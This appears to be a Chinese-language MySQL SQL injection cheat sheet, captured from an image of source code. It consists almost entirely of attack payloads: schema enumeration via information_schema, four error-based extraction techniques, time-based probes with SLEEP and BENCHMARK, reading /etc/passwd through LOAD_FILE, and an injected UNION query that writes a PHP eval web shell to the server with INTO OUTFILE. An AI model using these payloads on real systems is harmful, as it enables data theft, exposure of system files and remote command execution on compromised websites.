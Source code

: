 	#常规
	SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema  
	!= 'mysql' AND table_schema != 'information_schema'

	#根据列名找表名**
	SELECT table_schema, table_name FROM information_schema.columns WHERE   
	column_name = 'username';

**列举字段名**

	SELECT table_schema, table_name, column_name FROM information_schema.columns   
	WHERE table_schema != 'mysql' AND table_schema != 'information_schema'

**单条数据获取**

	SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0;
	SELECT host,user FROM user ORDER BY host LIMIT 0,1;
	#LIMIT 偏移,行数
	#LIMIT 行数 OFFSET 偏移
**显错注入**

	#方式1
	and (select 1 from (select count(*),concat(SQL语句,floor(rand(0)*2))x  
	from information_schema.tables group by x)a);
	
	#方式2
	and (select count(*) from (select 1 union select null  
	union select !1)x group by concat(sql语句,floor(rand(0)*2)));

	#方式3
	and extractvalue(1, concat(0x5c, (SQL语句)));

	#方式4
	and 1=(updatexml(1,concat(0x5e24,(SQL语句),0x5e24),1));
	
	#对于1, 原始的报错语句如下：
	select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
	count(*)    x
	1           5.1.28-rc-community1
	1           5.1.28-rc-community0
	1           5.1.28-rc-community1  <-- 出现重复的x值。报错。

**延时注入**

	SELECT BENCHMARK(1000000,MD5('A'));
	SELECT SLEEP(5); # >= 5.0.12

**文件读写**

	#读取文件，需要相关权限
	UNION SELECT LOAD_FILE('/etc/passwd')
	
	#写入文件，需要相关权限
	SELECT * FROM mytable INTO dumpfile '/tmp/somefile'
	
	#写入文件，需要相关权限
	SELECT * FROM mytable INTO outfile '/tmp/somefile'

	#小马形式1
	?id=1 and 1=2 union select 1,'<?php eval(_POST[cmd])?>',3,4,5,6 into outfile  '/xx/x.php'/*
